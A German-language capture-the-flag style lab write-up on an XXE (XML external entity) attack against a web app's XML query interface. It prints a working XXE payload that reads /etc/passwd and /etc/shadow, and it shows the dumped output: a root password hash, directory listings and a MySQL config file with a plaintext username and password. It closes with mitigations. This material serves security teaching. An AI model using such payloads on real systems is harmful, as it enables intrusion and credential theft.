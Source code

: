 # 2600 Web Security: XML Path Traversal

## Vorgehen
- Die Website schickt die Eingaben als XML-Dokument an den Server
![](../img/hacking-lab-2600-1.png)

- Die Antwort beinhaltet das `query`-Objekt, das wir schicken
- Mit einer XXE-Attacke können wir versuchen, ein File vom System in den Request zu schreiben, das bei der Antwort vom Server mitgeschickt wird:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE query [<!ENTITY getme SYSTEM "/etc/passwd">]>
<query>
	<result-limit>1</result-limit>
	<bell-name>bla</bell-name>
	<bell-description>&getme;</bell-description>
</query>
```
- Antwort:

![](../img/hacking-lab-2600-2.png)

- So haben wir den Inhalt von `/etc/passwd`. Genau gleich können wir die anderen Files auslesen
- `/etc/shadow`
```
root:$1$HwRrL3RY$9lRscANn8FK46LdzJEoa9.:15988:0:99999:7:::
daemon:*:13035:0:99999:7:::
bin:*:13035:0:99999:7:::
sys:*:13035:0:99999:7:::
sync:*:13035:0:99999:7:::
games:*:13035:0:99999:7:::
man:*:13035:0:99999:7:::
lp:*:13035:0:99999:7:::
mail:*:13035:0:99999:7:::
news:*:13035:0:99999:7:::
uucp:*:13035:0:99999:7:::
proxy:*:13035:0:99999:7:::
...
```
- Das Root-Verzeichnis `/`:
```
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
opt
proc
root
sbin
selinux
srv
sys
tmp
usr
var
vmlinuz
```
- Inhalt von `/opt/applic`
```
...
myca
mysql
mysql_old
mysql-5.0.51a
mysql-standard-4.0.26-pc-linux-gnu-i686
...
tomcat
vmware
```
- Inhalt von `/opt/applic/tomcat/webapps.properties/`
```
...
mail.properties
mysql.hr.properties
mysql.properties
...
```
- Inhalt von `/opt/applic/tomcat/webapps.properties/mysql.properties`
```
# MYSQL PROPERTIES - TIME IN SECONDS
################################################################
mysql.driver		= org.gjt.mm.mysql.Driver

mysql.username		= glockenemil
mysql.password		= Nt88,.po

mysql.bells.url		= jdbc:mysql://127.0.0.1:5506/glocken_emil?autoDeserialize=true
mysql.login.url		= jdbc:mysql://127.0.0.1:5506/login
mysql.session.url	= jdbc:mysql://127.0.0.1:5506/sessionservice

mysql.session.testquery	=
mysql.login.testquery	=
mysql.bells.testquery	=

mysql.connections.max               = 100 
mysql.connections.min               = 10 
mysql.connections.increaserate      = 2 
mysql.connections.timeout           = 120
mysql.connections.maxage            = 900


# LOGIN TABLE DEFS
#################################################################
mysql.tblLogin		= users

mysql.fldAdditionalTime	= additionaltime
mysql.fldReleaseTime	= releasetime
mysql.fldUsername	= username
mysql.fldTries		= tries
contactForm	= no
```
- So haben wir die Credentials vom SQL-Benutzer gefunden, womit der Tomcat connected: `glockenemil`, `Nt88,.po`

## Security Problem
- Der Server spielt hier XML-Generator: Er liest unsere DTD-Definition und sucht auf dem Filesystem nach dem Namen (z.B. `/etc/shadow`), was eigentlich eine DTD-Definition sein sollte. Das XML wird an uns zurück gegeben mit dem Inhalt der Datei
- Der Prozess des Webservers scheint Lesezugriff auf das gesamte System zu haben

## Mitigation
- Rechte des Server-Prozesses einschränken, dass er nur Lese-Zugriff auf das nötigste hat
- XML-Parser konfigurieren, dass nicht eine beliebige Datei, sondern nur valide XML-Schemata eingelesen wird
- z.B. mit einer WAF solche Entity Injections komplett heraus filtern / blockieren
